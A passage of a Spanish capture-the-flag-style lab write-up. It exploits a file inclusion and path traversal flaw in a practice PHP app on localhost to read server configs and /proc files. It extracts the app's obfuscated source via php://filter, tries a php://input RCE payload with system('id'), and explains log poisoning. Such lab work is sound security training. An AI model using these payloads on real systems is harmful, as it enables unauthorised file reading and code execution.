

Y pruebo también a leer las variables de entorno del proceso a través del pseudo-sistema de ficheros `/proc`, que en Linux expone información en tiempo real de los procesos en ejecución:

```
http://localhost:8000/notas.php?expediente=11111&file=../../../../proc/self/environ
```


El resultado está vacío: `self` apunta al proceso que realiza la lectura del fichero en ese instante, que no se corresponde exactamente con el proceso PHP-FPM principal de la aplicación, por lo que no se obtienen variables de entorno útiles por esta vía.

Como `nginx.conf` incluye la configuración de los sitios virtuales desde `/etc/nginx/sites-enabled/`, voy a ese fichero en busca de la ruta real de la aplicación:

```
http://localhost:8000/notas.php?expediente=11111&file=../../../../etc/nginx/sites-enabled/default
```


Este fichero es muy revelador:

- Confirma que la raíz de la aplicación web es **`/var/www/html`**.
- Revela que nginx tiene activado **ModSecurity** (`modsecurity on;`, con reglas en `/etc/nginx/modsecurity.conf`). Esto explica retrospectivamente el filtro que bloqueaba palabras como `OR`, `AND`, `FROM` y funciones del sistema en los ejercicios de “Notas Disponibles” y “login.php”: no era un filtro casero de la aplicación, sino un WAF real delante de ella.
- Confirma que PHP se ejecuta como **PHP 8.2-FPM** a través de un socket Unix.

Confirmo el origen del WAF accediendo al propio fichero de reglas:

```
http://localhost:8000/notas.php?expediente=11111&file=../../../../etc/nginx/modsecurity.conf
```





Es la configuración estándar del paquete ModSecurity, y su última línea confirma que carga el conjunto de reglas **OWASP Core Rule Set (CRS)** (`Include /usr/share/modsecurity-crs/rules/*.conf`), el estándar de la industria para este tipo de WAF, de ahí que bloqueara exactamente los patrones típicos de SQLi que fuimos encontrando en ejercicios anteriores.

#### Obtención del código fuente de la aplicación

Con la ruta de la aplicación confirmada (`/var/www/html`), intento leer directamente el código fuente de `notas.php`:

```
http://localhost:8000/notas.php?expediente=11111&file=../../../../var/www/html/notas.php
```



Como se puede ver, esto no muestra el código fuente, sino que ejecuta de nuevo ese `notas.php` (aparece la cabecera duplicada dentro de la página). Esto es el comportamiento esperado de `include()` en PHP: cualquier fichero con extensión `.php` que se le pase se interpreta y ejecuta, no se muestra como texto.

Para forzar a PHP a devolver el contenido del fichero sin ejecutarlo, utilizo el envoltorio especial `php://filter`, que aplica un filtro de conversión (en este caso, codificación a base64) al contenido del fichero antes de que `include()` lo procese. Al quedar codificado en base64, el resultado deja de ser sintácticamente válido como PHP, por lo que el intérprete no lo ejecuta y simplemente lo “incluye” como texto plano:

```
http://localhost:8000/notas.php?expediente=11111&file=php://filter/convert.base64-encode/resource=notas.php
```



**Código fuente obtenido, codificado en base64 (origen):**

```
PD9waHAgZXZhbChiYXNlNjRfZGVjb2RlKCdDaUJuYjNSdklHdFZSekkxT3lCQ1NrczRPRG9nWldOb2J5QWlYSGd6WTF4NE5qSmNNVFl5WERjMklpQXVJR1JoZEdVb0lsd3hOakpjTkRCY01UUTFJaWs3SUdkdmRHOGdiakpXY1RNN0lFcEhaRWRTT2lCcFppQW9hWE56WlhRb0pGOUhSVlJiSWx4NE5qWmNlRFk1WERFMU5GeDROalVpWFNrZ0ppWWdhWE56WlhRb0pGOUhSVlJiSWx3eE5EVmNlRGM0WERFMk1GeDROalZjTVRRMFhERTFNVnd4TkRWY2VEWmxYREUyTkZ3eE5EVWlYU2twSUhzZ2FXNWpiSFZrWlNBa1gwZEZWRnNpWERFME5sd3hOVEZjZURaalhIZzJOU0pkT3lBa1ltUWdQU0J1WlhjZ1RYbEVRaWdwT3lBa1pYaHdaV1JwWlc1MFpTQTlJQ1JmUjBWVVd5SmNNVFExWEhnM09Gd3hOakJjZURZMVhERTBORnd4TlRGY01UUTFYREUxTmx4NE56UmNlRFkxSWwwN0lDUnpjV3hmY1hWbGNubGZaWGh3WldScFpXNTBaU0E5SUNKY01USXpYREV3TlZ3eE1UUmNNVEExWERFd00zeDROVFJjZURJd1hIZ3lZVng0TWpCY01UQTJYREV5TWx4NE5HWmNlRFJrWEhneU1GeDRORFZjTVRjd1hIZzNNRnd4TkRWY2VEWTBYREUxTVZ4NE5qVmNlRFpsWEhnM05Gd3hORFZjZURjelhIZ3lNRnd4TWpkY2VEUTRYREV3TlZ4NE5USmNlRFExWERRd1hIZzJOVng0TnpoY2VEY3dYREUwTlZ4NE5qUmNlRFk1WERFME5Wd3hOVFpjTVRZMFhIZzJOVncwTUZ3M05WeDRNakJjZURJM2V5UmxlSEJsWkdsbGJuUmxmVng0TWpjaU95QWtaR0YwYjNNZ1BTQWtZbVF0UG5GMVpYSjVLQ1J6Y1d4ZmNYVmxjbmxmWlhod1pXUnBaVzUwWlNrN0lIZG9hV3hsSUNna1pHRjBieUE5SUNSa1lYUnZjeTArWm1WMFkyaEJjbkpoZVNncEtTQjdJR1ZqYUc4Z0lseDRNMk5jZURZMFhIZzJPVng0TnpaY2VESXdYSGcyTTF3eE5UUmNNVFF4WEhnM00zd3hOak5jZUROa1hEUXlYSGczTWx3eE5EVmNlRFkzWERFMU1Wd3hOak5jTVRZMFhIZzNNbHg0Tm1aY05ESmNOellpT3lCbFkyaHZJQ0pjZUROalhERTJNMXg0TnpCY2VEWXhYSGcyWlZ4NE1qQmNlRFl6WEhnMlkxeDROakZjTVRZelhERTJNMXczTlZ4NE1qSmNNVFF6WERFME1WeDRObVJjTVRZd1hERTFOMXcxTlZ3eE5UWmNNVFUzWERFMU5WeDROakpjZURjeVhERTBOVng0TWpKY056WmNNVEUyWEhnMlpseDRObVJjTVRReVhERTJNbHg0TmpWY2VETmhYSGd6WTF4NE1tWmNlRGN6WERFMk1GeDROakZjZURabFhEYzJYRFF3WEhnelkxd3hOak5jTVRZd1hIZzJNVnd4TlRaY05EQmNNVFF6WERFMU5Gd3hOREZjTVRZelhERTJNMXg0TTJSY05ESmNNVFkyWERFME1WeDRObU5jTVRVM1hIZzNNbHcwTWx4NE0yVWlJQzRnYUhSdGJITndaV05wWVd4amFHRnljeWdrWkdGMGIxc2lYREUxTmx4NE5tWmNlRFprWERFME1seDROekpjZURZMUlsMHBJQzRnSWx3M05GdzFOMXd4TmpOY01UWXdYSGcyTVZ4NE5tVmNlRE5sWEhnelkxd3hOREpjZURjeVhEYzJJanNnWldOb2J5QWlYSGd6WTF4NE56TmNNVFl3WEhnMk1WeDRObVZjTkRCY2VEWXpYREUxTkZ4NE5qRmNNVFl6WERFMk0xeDRNMlJjTkRKY01UUXpYSGcyTVZ4NE5tUmNNVFl3WERFMU4xeDRNbVJjZURZMVhIZzNPRng0TnpCY01UUTFYREUwTkZ4NE5qbGNlRFkxWEhnMlpWeDROelJjZURZMVhIZ3lNbHg0TTJWY2VEUTFYSGczT0Z4NE56QmNlRFkxWEhnMk5Gd3hOVEZjTVRRMVhIZzJaVnd4TmpSY01UUTFYSGd6WVZ4NE0yTmNlREptWEhnM00xd3hOakJjZURZeFhERTFObHczTmx4NE1qQmNlRE5qWERFMk0xeDROekJjTVRReFhIZzJaVng0TWpCY01UUXpYREUxTkZ3eE5ERmNlRGN6WEhnM00xdzNOVng0TWpKY2VEYzJYREUwTVZ4NE5tTmNlRFptWERFMk1seDRNakpjTnpZaUlDNGdhSFJ0YkhOd1pXTnBZV3hqYUdGeWN5Z2taR0YwYjFzaVhERTBOVng0TnpoY01UWXdYSGcyTlZ3eE5EUmNNVFV4WERFME5Wd3hOVFpjTVRZMFhIZzJOU0pkS1NBdUlDSmNlRE5qWEhneVpsd3hOak5jZURjd1hERTBNVng0Tm1WY2VETmxYSGd6WTF3eE5ESmNNVFl5WEhnelpTSTdJR1ZqYUc4Z0lsdzNORng0TnpOY2VEY3dYSGcyTVZ3eE5UWmNOREJjZURZelhIZzJZMXd4TkRGY2VEY3pYSGczTTF4NE0yUmNlREl5WERFME0xd3hOREZjTVRVMVhIZzNNRng0Tm1aY2VESmtYREUxTmx3eE5UZGNNVFkwWEhnMk1WeDRNakpjZURObFhIZzBaVnd4TlRkY2VEYzBYREUwTVZ3M01sdzNORncxTjF3eE5qTmNlRGN3WEhnMk1Wd3hOVFpjTnpaY05EQmNOelJjZURjelhERTJNRnd4TkRGY01UVTJYSGd5TUZ4NE5qTmNlRFpqWEhnMk1WeDROek5jZURjelhEYzFYRFF5WERFMk5seDROakZjTVRVMFhERTFOMXd4TmpKY2VESXlYSGd6WlNJZ0xpQm9kRzFzYzNCbFkybGhiR05vWVhKektDUmtZWFJ2V3lKY01UVTJYREUxTjF4NE56UmNNVFF4SWwwcElDNGdJbHczTkZ4NE1tWmNNVFl6WERFMk1Gd3hOREZjZURabFhIZ3paVng0TTJOY2VEWXlYSGczTWx4NE0yVWlPeUJsWTJodklDSmNOelJjTlRkY2VEWTBYREUxTVZ3eE5qWmNlRE5sSWpzZ2ZTQjlJR2R2ZEc4Z2FrMWxTV283SUc0eVZuRXpPaUEvUGdvOEwyaGxZV1JsY2o0OGJXRnBiaUJqYkdGemN6MGlkVzlqTFdOdmJuUmxiblFpUGp3L2NHaHdJQ0JuYjNSdklHZHpSekZQT3lCclZVY3lOVG9nUHo0S1BDRmtiMk4wZVhCbGFIUnRiRDQ4YUhSdGJDQnNZVzVuUFNKbGN5SStQR2hsWVdRK1BHMWxkR0VnWTJoaGNuTmxkRDBpVlZSR0xUZ2lQanh0WlhSaElHTnZiblJsYm5ROUluZHBaSFJvUFdSbGRtbGpaUzEzYVdSMGFDeHBibWwwYVdGc0xYTmpZV3hsUFRFaWJtRnRaVDBpZG1sbGQzQnZjblFpUGp4MGFYUnNaVDVXYVhOdmNpQmtaU0J1YjNSaGN6d3ZkR2wwYkdVK1BHeHBibXNnYUhKbFpqMGlMMlZ6ZEdsc2J5NWpjM01pY21Wc1BTSnpkSGxzWlhOb1pXVjBJajQ4TDJobFlXUStQR0p2WkhrK1BHaGxZV1JsY2lCamJHRnpjejBpZFc5akxXaGxZV1JsY2lJK1BHRWdhSEpsWmowaWFXNWtaWGd1Y0dod0lqNDhhVzFuSUdGc2REMGlURzluYnlCVlQwTWlZMnhoYzNNOUluVnZZeTFzYjJkdkluTnlZejBpTDJ4dloyOHRkVzlqTFdSbFptRjFiSFF1Y0c1bklqNGdQQzloUGp3L2NHaHdJQ0JuYjNSdklFSktTemc0T3lCbmMwY3hUem9nWlhKeWIzSmZjbVZ3YjNKMGFXNW5LREFwT3lCbmIzUnZJRnBITUd4Sk95QmFSekJzU1RvZ1kyeGhjM01nVFhsRVFpQmxlSFJsYm1SeklGTlJUR2wwWlRNZ2V5Qm1kVzVqZEdsdmJpQmZYMk52Ym5OMGNuVmpkQ2dwSUhzZ0pIUm9hWE10UG05d1pXNG9JbHcxTjF4NE5qRmNNVFl3WEhnM01Gd3hOak5jTlRkY05UWmNlRGN3WEhnM01seDROakZjZURZelhIZ3pNVng0TW1WY2VEVm1YREUwTkZ3eE5ESWlLVHNnZlNCOUlHZHZkRzhnU2tka1IxSTdJR3BOWlVscU9pQS9QZ284TDIxaGFXNCtQQzlvZEcwPScpKTsgPz4K
```

**Primera pasada de decodificación (Decodificador Web Base64):**

```php
<?php eval(base64_decode('CiBnb3RvIGtVRzI1OyBCSks4ODogZWNobyAiXHgzY1x4NjJcMTYyXDc2IiAuIGRhdGUoIlwxNjJcNDBcMTQ1Iik7IGdvdG8gbjJWcTM7...[cadena larga truncada]...QC9vZG0='))); ?>
```

El resultado no es aún código legible, sino una **segunda capa** de ofuscación: otra llamada `eval(base64_decode('...'))` con otra cadena larga en base64 dentro.

**Segunda pasada de decodificación (Decodificador Web Base64 aplicado al contenido del segundo `base64_decode`):**

```php
goto kUG25; BJK88: echo "\x3c\x62\162\76" . date("\162\40\145"); goto n2Vq3;JGdGR: if (isset($_GET["\x66\x69\154\x65"]) && isset($_GET["\145\x78\160\x65\144\151\145\x6e\164\145"])) {    include $_GET["\146\151\x6c\x65"];    $bd = new MyDB();    $expediente = $_GET["\145\x78\160\x65\144\151\145\156\x74\x65"];    $sql_query_expediente = "\123\105\114\105\103\x54\x20\x2a\x20\106\122\x4f\x4d\x20\x45\170\x70\145\x64\151\x65\x6e\x74\145\x73\x20\127\x48\105\x52\x45\40\x65\x78\x70\145\x64\x69\145\156\164\x65\40\75\x20\x27{$expediente}\x27";    $datos = $bd->query($sql_query_expediente);    while ($dato = $datos->fetchArray()) {        echo "\x3c\x64\x69\x76\x20\x63\154\141\x73\163\x3d\42\x72\145\x67\151\163\164\x72\x6f\42\76";        ... [resto del bloque echo de cada campo] ...    }}goto jMeIj;...<?php goto BJK88; gsG1O: error_reporting(0); goto ZG0lI;ZG0lI: class MyDB extends SQLite3 {    function __construct() {        $this->open("\57\x61\160\x70\163\57\56\x70\x72\x61\x63\x31\x2e\x5f\144\142");    }}goto JGdGR; jMeIj: ?>
```

Aunque este resultado todavía conserva caracteres en hexadecimal/octal y un flujo artificialmente reordenado con `goto`, ya permite identificar, descifrando a mano los fragmentos más cortos:

- `include $_GET["file"]` sin ningún saneamiento → confirma en el propio código fuente el Path Traversal/LFI explotado.
- `"...WHERE expediente = '{$expediente}'"` concatenado directamente → confirma el origen exacto del SQLi del ejercicio de “Notas Disponibles”.
- `error_reporting(0)` → explica por qué esta página nunca mostró ningún error PHP.
- `class MyDB extends SQLite3` abriendo un fichero en `/apps/./prac1._db` → revela que esta tabla de notas usa una base de datos **SQLite** independiente del MariaDB de los ejercicios anteriores.

### Resolución reto adicional (¿es posible ir más allá de la lectura de ficheros y llegar a ejecutar código en el servidor aprovechando esta vulnerabilidad?)

Con el fichero `nota.php` obtenido en el apartado anterior, sabemos que el `include($_GET['file'])` no filtra en absoluto el valor de `file`, lo cual en teoría permite usar wrappers de PHP que llegan más allá de la simple lectura de ficheros. Intenté explotar esto con **`php://input`**, un wrapper que permite que `include()` ejecute como código PHP el contenido que se envía en el cuerpo de una petición POST:

```
curl -A "Mozilla/5.0 ..." "http://localhost:8000/notas.php?expediente=11111&file=php://input" --data '<?php system("id"); ?>'
```

El resultado fue la página normal, sin ningún rastro del comando `id` ejecutado. Esto indica que la directiva de configuración de PHP **`allow_url_include`** está desactivada (`Off`), que es su valor por defecto fuera de entornos deliberadamente inseguros: esta opción es la que determina si `include()`/`require()` pueden tratar wrappers “de tipo URL” (como `php://input`, `http://`, `data://`) como si fueran ficheros locales ejecutables. Con ella desactivada, PHP se niega a incluir el contenido, y como `error_reporting(0)` sigue activo en la página, el fallo es completamente silencioso.

**Condiciones que harían falta para lograr RCE por esta vía:**

1. Que `allow_url_include` estuviera activado (`On`) en el `php.ini` del servidor, la condición principal y la que aquí falla.
2. Alternativamente, sin tocar esa directiva, otra vía sería el “log poisoning”: si consiguiéramos que algún log del servidor (por ejemplo, el `access.log` de nginx) registrara una petición con código PHP incrustado, algo posible si el User-Agent o una URL maliciosa queda escrito tal cual en el log, podríamos luego usar el mismo LFI para incluir ese fichero de log (`file=../../../../var/log/nginx/access.log`), y PHP ejecutaría el fragmento PHP contenido en esa línea del log como si fuera código del propio fichero incluido.
3. Si la aplicación permitiera subir ficheros en algún punto (no es el caso aquí, no he visto ningún formulario de subida), se podría subir un fichero `.php` con el payload y luego incluirlo directamente mediante el path traversal.

Dado que no h eencontrado ninguno de estos tres escenarios activos en esta aplicación (sin subida de ficheros, `allow_url_include` desactivado, y sin haber confirmado acceso de escritura a los logs), concluyo que el impacto de esta vulnerabilidad queda limitado a lectura arbitraria de ficheros (LFI), sin llegar a ejecución remota de código (RCE) en esta configuración concreta, aunque el riesgo de que escalara a RCE bajo otra configuración del servidor es real y queda documentado como posibilidad.
